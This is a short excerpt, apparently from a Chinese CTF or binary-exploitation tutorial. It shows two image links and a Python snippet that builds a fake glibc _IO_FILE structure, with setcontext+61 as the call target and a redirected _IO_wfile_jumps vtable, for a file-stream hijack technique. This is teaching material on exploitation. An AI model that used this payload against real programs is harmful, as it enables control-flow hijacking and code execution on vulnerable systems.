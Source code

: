 [![](assets/1699929779-d2dea1fc0090447c4f4e9d627fa68b28.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001445-18dd82e8-7f1b-1.png)

[![](assets/1699929779-96fac50a7d39f7a206177fa9a89017c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001448-1a8c0114-7f1b-1.png)

## 三、构造fake\_io

```plain
fake_struct = p64(0) #_IO_read_end
fake_struct += p64(0) #_IO_read_base
fake_struct += p64(0) #_IO_write_base
fake_struct += p64(0) #_IO_write_ptr
fake_struct += p64(0) #_IO_write_end
fake_struct += p64(0) #_IO_buf_base
fake_struct += p64(1) #_IO_buf_end
fake_struct += p64(0) #_IO_save_base
fake_struct += p64(fake_io_addr + 0xb0) #_IO_backup_base = rdx
fake_struct += p64(setcontext + 61) #_IO_save_end = call_addr
fake_struct += p64(0)  #_markers
fake_struct += p64(0)  #_chain
fake_struct += p64(0)  #_fileno
fake_struct += p64(0)  #_old_offset
fake_struct += p64(0)  #_cur_column
fake_struct += p64(heap_base + 0x200) #_lock = heap_addr or writeable libc_addr
fake_struct += p64(0) #_offset
fake_struct += p64(0) #_codecvx
fake_struct += p64(fake_io_addr + 0x30) #_wfile_data rax1
fake_struct += p64(0) #_freers_list
fake_struct += p64(0) #_freers_buf
fake_struct += p64(0) #__pad5
fake_struct += p32(0) #_mode
fake_struct += b"\x00"*20 #_unused2
fake_struct += p64(_IO_wfile_jumps + 0x10) #vatable
fake_struct += p64(0)*6 #padding
fake_struct += p64(fake_io_addr + 0x40) #rax2 -> to make [rax+0x18] = setcontext + 61
```

